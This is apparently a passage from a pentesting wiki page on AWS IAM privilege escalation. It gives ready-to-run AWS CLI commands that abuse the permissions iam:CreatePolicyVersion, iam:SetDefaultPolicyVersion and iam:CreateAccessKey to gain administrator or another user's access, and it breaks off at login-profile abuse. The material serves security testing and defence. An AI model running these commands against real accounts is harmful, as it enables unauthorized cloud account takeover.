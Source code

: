 # AWS - IAM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## IAM

For more info about IAM check:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

### **`iam:CreatePolicyVersion`**

Grants the ability to create a new IAM policy version, bypassing the need for `iam:SetDefaultPolicyVersion` permission by using the `--set-as-default` flag. This enables defining custom permissions.

**Exploit Command:**

```bash
aws iam create-policy-version --policy-arn <target_policy_arn> \
    --policy-document file:///path/to/administrator/policy.json --set-as-default
```

**Impact:** Directly escalates privileges by allowing any action on any resource.

### **`iam:SetDefaultPolicyVersion`**

Allows changing the default version of an IAM policy to another existing version, potentially escalating privileges if the new version has more permissions.

**Bash Command:**

```bash
aws iam set-default-policy-version --policy-arn <target_policy_arn> --version-id v2
```

**Impact:** Indirect privilege escalation by enabling more permissions.

### **`iam:CreateAccessKey`**

Enables creating access key ID and secret access key for another user, leading to potential privilege escalation.

**Exploit:**

```bash
aws iam create-access-key --user-name <target_user>
```

**Impact:** Direct privilege escalation by assuming another user's extended permissions.

### **`iam:CreateLoginProfile` | `iam:UpdateLoginProfile`**

Permits creating or updating a login profile, including setting passwords for AWS console login, leading to direct privilege escalation.
